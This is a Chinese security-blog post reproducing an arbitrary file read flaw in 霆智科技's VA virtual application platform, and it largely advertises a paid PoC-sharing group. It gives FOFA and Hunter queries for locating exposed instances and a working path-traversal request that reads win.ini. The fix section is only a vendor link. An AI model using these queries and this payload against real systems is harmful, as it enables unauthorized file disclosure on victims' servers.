 #  【漏洞复现】霆智科技 VA虚拟应用平台 任意文件读取漏洞

[ 天擎攻防实验室 ](javascript:void\(0\);)

**天擎攻防实验室** ![]()

微信号 gh_2fb077348503

功能介绍 天擎攻防实验室，致力于分享最新漏洞情报以及复现!

____

___发表于_

收录于合集

#漏洞复现 16 个

#sql注入 3 个

**0x01  阅读须知**

**天擎攻防实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！** ****

 **0x02 漏洞描述**

（一） VA虚拟应用平台 ** ******

霆智科技的VA虚拟应用平台是一个创新的技术平台，旨在为用户提供虚拟助手（Virtual
Assistant）的功能和服务。虚拟助手是一种人工智能系统，通过自然语言处理、机器学习和其他相关技术，能够与用户进行对话，并执行各种任务和服务。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180615.png)

FOFA语法：

  * 

    
    
    body="EAA益和应用接入系统"

hunter语法：

  * 

    
    
    web.body="EAA益和应用接入系统"

 ** ** ** ** **  hunter共 **8,225** 条资产** **  
**  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180616.png)

  
（二）  漏洞poc

  *   *   *   *   * 

    
    
      
    GET /..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini HTTP/1.1Host:  
      
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180617.png)

 **更多漏洞POC发布在知识星球**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180619.png)  

  

 ** **  星球的最近主题和星球内部工具一些展示****

![]() ** ******

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180620.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180621.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180622.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180623.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180624.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180625.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180626.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180627.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180619.png)  

  

 ** **星球内部成员的出货****

 **  
** **  
**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180629.png)

 **  
** **  
**  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180630.png)

 **  
** **  
** **Web安全漏洞最新1day分享** **漏洞挖掘技巧分享**  
 **** **   加入星球请扫描下方二维码，更多精彩，敬请期待**

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180632.png)

  

  

  

  

  

 **0x03  修复方案**

 **官方修复缓解措施**

 **补丁链接**

 **http://www.tzfse.com.cn/**

 ****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

